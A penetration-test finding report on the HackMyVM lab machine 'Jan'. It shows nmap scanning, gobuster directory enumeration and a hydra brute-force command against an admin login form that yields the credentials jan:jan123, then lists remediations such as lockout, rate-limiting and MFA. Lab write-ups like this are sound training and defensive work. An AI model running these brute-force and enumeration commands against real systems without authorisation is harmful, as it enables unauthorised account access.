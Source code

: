 📑 Finding Report: User Access (Jan – HackMyVM)
1. Executive Summary
Severity: Low / Informational

Brief description:
Access to the user account jan on the Jan machine from HackMyVM was achieved through brute-forcing the HTTP panel on port 8080.

2. Scope and Environment
Platform: HackMyVM

Machine: Jan (Easy – Linux)

Assigned IP: 192.168.1.130

Test Date: 26/04/2025

Tools Used:

nmap

gobuster

hydra

3. Finding Description
Clear explanation of what was achieved and its significance:

Through a brute-force attack on the login form located at http://192.168.1.130:8080/admin, valid credentials (jan:jan123) were obtained, allowing authentication as user jan.
This demonstrates that the panel does not limit or delay failed login attempts, making it vulnerable to brute-force attacks against real users.

4. Proof of Concept (PoC)
4.1. Port Scanning
bash
Copiar
Editar
nmap -sV -sC -oN jan_nmap.txt 192.168.1.130
Open ports: 22/tcp (SSH), 8080/tcp (HTTP)

4.2. Web Enumeration
bash
Copiar
Editar
gobuster dir -u http://192.168.1.130:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --exclude-length 45
Discovered directory: /admin

4.3. Credential Brute-Forcing
bash
Copiar
Editar
hydra -l jan -P /usr/share/wordlists/rockyou.txt 192.168.1.130 http-post-form "/admin/index.php:username=^USER^&password=^PASS^:F=Invalid" -s 8080
Discovered credentials: jan:jan123

4.4. Account Access
Successful authentication using the retrieved credentials.

5. Impact
Low impact in a CTF or testing environment.

In a real-world scenario, an attacker could:

Enumerate valid users.

Attempt privilege escalation from that account (if vulnerable code is found).

Launch social engineering attacks against internal users.

6. Recommendations / Remediation
Implement account lockout or penalties after a limited number of failed attempts (e.g., after 5 tries).

Add delays (rate-limiting) between login attempts.

Monitor and alert for brute-force patterns.

(Optional) Implement multi-factor authentication (MFA) for administrative access.

7. Attachments
Output files from nmap, gobuster, and hydra.

Terminal screenshots and web panel captures.

Tool versions used during the test.
